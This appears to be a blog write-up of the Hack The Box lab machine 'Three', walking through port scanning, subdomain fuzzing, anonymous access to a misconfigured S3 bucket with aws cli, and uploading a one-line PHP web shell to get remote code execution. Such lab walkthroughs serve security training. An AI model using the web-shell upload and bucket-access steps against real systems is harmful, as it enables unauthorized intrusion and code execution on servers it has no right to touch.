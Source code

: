 ```yaml
---
layout: post
title:  HTB - Three
subtitle: Pwning Three
date:   2022-11-24
tags: [writeup, cybersecurity, hackthebox]
author: Patrick Castro
comments: True
---
```


Vulnerability: Insecure File Upload in AWS S3 Bucket

<br>

Requirements:
- aws cli - (`sudo apt-get install awscli`)

<br>

## Steps:
1. Conducting an Nmap scan to the given IP, will result to 2 open TCP ports (22 and 80).

    ```
    Nmap scan report for 10.129.113.143
    Host is up (0.57s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    ```

    > Note: Finding a port 80 means that there is a web application.

2. Browsing the web app (http://ip), the domain/hostname can be found in the contact section in the email address (mail@thetoppers.htb) - **thetoppers.htb**.
    ![2](/assets/img/three/2.png)

3. Given the IP address and the domain, add the ip address with the corresponding hostname in the /etc/hosts file.
    Edit the hosts file using `sudo nano /etc/hosts/` or `sudo subl /etc/hosts/`.

    ```
    [snip]

    10.129.113.143   thetoppers.htb
    ```

4. Now, the web application is accessible using http://thetoppers.htb/ 

5. Enumerating subdomains using `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://thetoppers.htb -H "Host: FUZZ.thetoppers.htb" -fw 1832`, s3.thetoppers.htb is present. And navigating to http://s3.thetoppers.htb/ results to:
    ![5](/assets/img/three/5.png)
    > This is a Amazon S3 service

6. Knowing this is an Amazon S3 service, there is a tool in command line called `aws cli`. Install aws cli in Kali.

7. Configure the AWS using `aws configure`, inputting just '`a`' will suffice.
    ![7](/assets/img/three/7.png)

8. List the contents of the bucket using `aws s3 ls s3://thetoppers.htb`. 
   ![8](/assets/img/three/8.png)

9. Should specify the endpoint `--endpoint http://thetoppers.htb`. Now the contents of the S3 bucket is listed. Also PHP as scripting language is known that the application used (index.php).
    ![9](/assets/img/three/9.png)

10. We can try uploading a malicious file using `aws s3 cp s3://`


11. First, we need a malicious file (reverse shell).
    
    ```php
    <?php system($_GET['cmd']); ?>
    ```
12. Now we can upload the file using this command `aws s3 --endpoint=http://s3.thetoppers.htb cp /home/kali/Desktop/transfer/shell.php s3://thetoppers.htb`.
    ![12](/assets/img/three/12.png)

13. Going back to the web application, a remote code execution is now possible.
    ![13](/assets/img/three/13.png)
    ![14](/assets/img/three/14.png)
    ![15](/assets/img/three/15.png)

Thanks for reading!

<br>

#### References:
- https://app.hackthebox.com/starting-point
- https://medium.com/quiknapp/fuzz-faster-with-ffuf-c18c031fc480

